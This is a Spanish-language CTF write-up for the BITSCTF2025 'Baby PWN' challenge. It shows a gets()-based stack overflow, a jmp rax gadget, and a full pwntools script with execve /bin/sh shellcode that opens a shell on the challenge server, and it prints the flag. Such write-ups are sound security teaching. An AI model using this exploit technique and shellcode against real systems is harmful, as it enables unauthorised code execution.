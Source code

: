 ```yaml
---
layout: post
title: Baby PWN BITSCTF2025
comments: true
categories: [Pwn, Writeups, BITSCTF2025]
---
```


Más vale tarde que nunca, así que aquí tenéis este writeup de la competición de este finde pasado. En este caso se trata de un ejercicio tipo *re2shellcode* bastante sencillito.

<br>
![Image]({{ site.baseurl }}/images/posts/BITSCTF.png){:width="150px"}
<br>

# Overview

El enunciado nos dice lo siguiente:

    I hope you are having a nice day.

Y se nos adjunta un binario `main`.

# Reconocimiento

Lo primero es analizar el binario:

```bash
❯ file main
main: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked,
interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=e2d574448024e277d4b9a662d470bef9bbab8b3d,
for GNU/Linux 3.2.0, not stripped

❯ checksec --file=main
[*] '/home/kali/Downloads/baby_pwn/main'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        No PIE (0x400000)
    Stack:      Executable
    RWX:        Has RWX segments
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

Vemos que es de 64-bits y tenemos todas las protecciones desactivadas. Si descompilamos tendríamos un código como el siguiente:

```c
#include <stdio.h>

void vuln() {
    char buffer[112]; // 0x70 bytes de espacio reservado en la pila
    gets(buffer);     // Buffer overflow
}

int main() {
    vuln();
    return 0;
}

```

Dado que no hay protecciones y tenemos tanto margen para explotar el *buffer overlow*, podemos tratar de ejecutar un *shellcode*. Para ello necesitamos un gadget que llame al shellcode:

```bash
❯ ropper -f main
[...]
0x00000000004010ac: jmp rax; 
```

La idea será introducir un payload con la siguiente estructura:

```
NOPs | shellcode | jmp rax
```

De forma que al saltar al registro, con algo de suerte tendrá dentro los NOPs, que se ejecutarán hasta llegar al shellcode.

# Explotación

Con la estrategia en mente, utilizaremos *python3* y *pwntools* para hacer un script:

```python
#!/bin/python3

from pwn import *

binary = './main'  # Nombre del binario
elf = ELF(binary)

# p = remote('direccion.ip', puerto)
p = process(binary)

#0x00000000004010ac: jmp rax;
jmp_addr = 0x4010ac

shellcode = asm('''
                xor rax, rax
                xor rbx, rbx

                mov rbx, 0x68732f6e69622f
                push rbx

                mov rdi, rsp
                xor rsi, rsi
                xor rdx, rdx

                mov rax, 0x3b
                syscall
                ''',arch='amd64')

offset = 120
padding = b'\x90' * (offset-len(shellcode))

payload = padding + shellcode + p64(jmp_addr)

print(payload)

print("[+] Enviando exploit...")

p.sendline(payload)

p.interactive()
```

Si ejecutamos el solver obtenemos lo siguiente:

```bash
❯ ./solver.py
[*] '/home/kali/Downloads/baby_pwn/main'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        No PIE (0x400000)
    Stack:      Executable
    RWX:        Has RWX segments
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
[+] Opening connection to chals.bitskrieg.in on port 6001: Done
b'\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90H1\xc0H1\xdbH\xbb/bin/sh\x00SH\x89\xe7H1\xf6H1\xd2H\xc7\xc0;\x00\x00\x00\x0f\x05\xac\x10@\x00\x00\x00\x00\x00'
[+] Enviando exploit...
[*] Switching to interactive mode
$ ls
flag.txt
main
main.c
run
$ cat flag.txt
BITSCTF{w3lc0m3_70_7h3_w0rld_0f_b1n4ry_3xpl01t4t10n_ec5d9205}
```

Este es un reto sencillo, pero que es muy común en competiciones, así que espero que te haya quedado claro. Nos vemos en el siguiente writeup!